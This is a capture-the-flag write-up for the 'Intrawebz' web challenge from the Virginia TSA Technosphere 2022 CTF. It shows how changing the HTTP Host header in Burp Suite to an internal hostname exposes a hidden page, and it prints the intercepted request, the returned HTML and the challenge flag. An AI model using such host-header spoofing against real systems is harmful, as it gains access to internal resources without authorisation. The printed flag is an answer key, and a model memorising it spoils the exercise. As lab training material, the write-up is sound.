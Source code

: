# Intrawebz (100)
#### web - [Virginia TSA Technosphere 2022 CTF](../main.md)

## Challenge description:
> You've seen the interwebz. Now get ready for the INTRAwebz
> 
> [https://vatsa-intrawebz.chals.io/](https://vatsa-intrawebz.chals.io/)

## Solution
Going to the website, we are told to access it from the "internal network" `flag.corp.internal`.

Intercepting the request through Burp Suite to the page returns:
```
GET / HTTP/1.1
Host: vatsa-intrawebz.chals.io
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="101"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```
If we change `Host: vatsa-intrawebz.chals.io` to `Host: flag.corp.internal` and forward the request, a blank page is returned. If we request the source with `Ctrl-U` and change the host again in the new request, the flag is revealed.
```html

<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <meta http-equiv="X-UA-Compatible" content="ie=edge">
  <link href="https://cdn.jsdelivr.net/npm/bootstrap@4.6.1/dist/css/bootstrap.min.css" rel="stylesheet">
  <title>flag.corp.internal</title>
</head>
<body class="bg-dark">
  <div class="container mt-4 text-center">
    <pre class="h1 text-dark font-weight-bolder">************************</pre>
  </div>
</body>
</html>
```
<details> 
    <summary>Flag</summary>
flag{H05tn4M3_P0llU710n}
</details>
